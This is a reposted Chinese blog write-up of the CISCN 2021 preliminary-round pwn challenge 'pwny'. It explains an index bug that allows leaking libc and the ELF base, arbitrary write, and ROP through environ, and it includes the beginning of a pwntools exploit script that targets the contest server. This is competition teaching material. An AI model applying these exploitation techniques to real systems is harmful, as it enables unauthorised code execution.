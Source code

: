 

# 【CTF题解NO.00009】CISCN2021-初赛-pwn write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/117097191](https://blog.csdn.net/arttnba3/article/details/117097191)

### 【CTF题解NO.00009】CISCN2021-初赛-pwn write up by arttnba3

# 0x00.绪论

国赛初赛划水，原本今年想摸了的（~~毕竟协会历来人丁稀少，能组出两个队去打就不错了，👴也没必要再勉强整第三个队，反正最后进去的就两个队，现在也不保研了，那就摸了算了~~），后面想想还是简单去康康~~今年360会不会像去年ylb那样拉跨~~，于是又抱上了囧姐姐和茜茜以及jchen三位带师傅的大腿组了一个摸🐟小队，~~结果比赛当天不知道为什么总之就是只有👴出了三道pwn，整到后面👴也没心思做了，再加上冲刺卷最后一题是LLVM，👴冲个🐓⑧，摸了，反正👴这队也不是主力队~~

以下 write up 主要摘自比赛当天队内的协作文档，~~以及👴感觉pwn好没用啊，还不如早点转web算了~~

# 0x01.场景实操 开场卷

## pwny | Done

一跑起来就 SIGSEGV，给👴整不会了，啥情况啊（暂时还没看IDA）

两个功能 read 和 write，但是 read 会直接 SIGSEGV ？

原来从 /dev/urandom 随机数发生器里读，read 好像读的事下标，那读歪了自然就直接 segmentation fault 了，但是👴好像妹法输入啊

read和 write 的 fd 都在 bss 上，write 改下标 256 两次就能把 fd 改成0

int64，那就整个负数补码让read往前读到 stdout，泄露 libc

再往前还能读到 elf 加载基址，这事ao的

可以任意地址写了，怎么写？写多少？👴一问三不知

environ在栈上构造ROP，但是总之就是很玄学一直没法通，后面莫名其妙又通了…

```
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
p_name = './pwny'
p = remote('124.71.239.124', 21662)
e = ELF(p_name)
libc = ELF('./libc-2.27.so')
one_gadget = [0x4f3d5, 0x4f432, 0x10a41c]

def cmd(command:int):
    p.recvuntil(b"Your choice:")
    p.sendline(str(command).encode())

def read(index):
    cmd(1)
    p.recvuntil(b"Index:")
    p.send(index)
    p.recvuntil(b'Result: ')

def write(index:int, content):
    cmd(2)
    p.recvuntil(b"Index:")
    p.sendline(str(index).encode())
    if content != None:
        p.send(content)

```